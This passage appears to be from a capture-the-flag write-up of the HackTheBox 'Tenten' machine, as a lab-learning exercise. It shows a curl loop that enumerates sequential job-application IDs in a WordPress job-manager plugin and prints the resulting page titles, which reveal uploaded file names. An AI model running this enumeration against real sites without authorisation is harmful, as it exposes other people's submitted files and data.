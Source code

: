 Clicking on the Pen Tester link takes you to the job section, with option to apply for job and upload a file:

![tenten-job-apply](/assets/images/2020-07-29-22-23-44.png)

You can look at different sections by changing the number in the URL from 8, seems to increment each time you submit an application through the job manager plugin.

We can use curl to see what applications have been made:

## Gaining Access

```text
root@kali:~/htb/machines/tenten# for i in $(seq 1 20); do echo -n "$i: "; curl -s http://10.10.10.10/index.php/jobs/apply/$i/ | grep '<title>'; done

1: <title>Job Application: Hello world! &#8211; Job Portal</title>
2: <title>Job Application: Sample Page &#8211; Job Portal</title>
3: <title>Job Application: Auto Draft &#8211; Job Portal</title>
4: <title>Job Application &#8211; Job Portal</title>
5: <title>Job Application: Jobs Listing &#8211; Job Portal</title>
6: <title>Job Application: Job Application &#8211; Job Portal</title>
7: <title>Job Application: Register &#8211; Job Portal</title>
8: <title>Job Application: Pen Tester &#8211; Job Portal</title>
9: <title>Job Application:  &#8211; Job Portal</title>
10: <title>Job Application: Application &#8211; Job Portal</title>
11: <title>Job Application: cube &#8211; Job Portal</title>
12: <title>Job Application: Application &#8211; Job Portal</title>
13: <title>Job Application: HackerAccessGranted &#8211; Job Portal</title>
14: <title>Job Application: Application &#8211; Job Portal</title>
15: <title>Job Application: Unicorn-And-Rainbow-Main-Product-Image-500&#215;500 &#8211; Job Portal</title>
16: <title>Job Application &#8211; Job Portal</title>
17: <title>Job Application &#8211; Job Portal</title>
18: <title>Job Application &#8211; Job Portal</title>
19: <title>Job Application &#8211; Job Portal</title>
20: <title>Job Application &#8211; Job Portal</title>
```
